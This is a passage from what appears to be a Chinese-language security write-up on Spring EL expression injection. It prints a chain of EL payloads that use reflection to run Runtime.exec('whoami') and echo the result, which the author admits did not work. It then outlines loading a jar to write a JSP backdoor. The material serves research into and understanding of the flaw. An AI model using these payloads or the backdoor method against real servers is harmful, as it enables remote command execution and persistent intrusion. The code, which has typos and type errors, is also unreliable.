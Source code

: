 ![此处输入图片的描述](img/img4_u111_png.jpg)

下面只要将命令执行的结果流转换为 String，输出给 println 函数即可。下面是按照我之前思路，构造的利用代码：

```
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("whoami",null).getInputStream())}

${pageContext.request.getSession().setAttribute("b",pageContext.request.getClass().forName("java.io.InputStreamReader").getConstructor(pageContext.request.getClass().forName("java.io.InputStream")).newInstance(pageContext.request.getSession().getAttribute("a")))}

${pageContext.request.getSession().setAttribute("c",pageContext.request.getClass().forName("java.io.BufferedReader").newInstance(pageContext.request.getSession().getAttribute("b")))}

${pageContext.request.getSession().setAttribute("d",pageContext.request.getClass().forName("java.lang.Byte").getConstructor(pageContext.request.getClass().forName("java.lang.Integer")).newInsTance(51020))}

${pageContext.request.getSession().getAttribute("c").read(pageContext.request.getSession().getAttribute("d"))}

${pageContext.response.getWriter().println(pageContext.request.getSession().getAttribute("d"))} 
```

首先将命令执行结果流存储至 session 属性 a 中；然后将 a 属性的内容作为初始化 InputStreamReader 对象的参数，并将对象存储至 b 属性；第三步将 b 属性中的内容作为参数初始化 BufferedReader 对象，并将对象存储至 c 属性；第四步初始化一个字符数组，存储至 d 属性中；第五步将 c 中的内容通过 read 方法，放入到 d 属性中，及转化为字符；最后 print 出 d 属性中内容。

但是这个思路我没有实现的最终原因是，通过 EL 使用反射初始化构造方法需要参数的对象时，参数类型和方法定义的参数类型总是不匹配。我想尽了我能想到的办法，最后还是找不到解决办法。

后面想到的一个可行的利用方法，是利用 Glassfish 平台下使用的方法，加载一个执行写文件到指定目录的 jar 包，来生成一个 jsp 后门。

Spring 框架中几乎只有标签的部分使用了 EL 表达式，下面我们将罗列出这些使用 EL 表达式的标签。
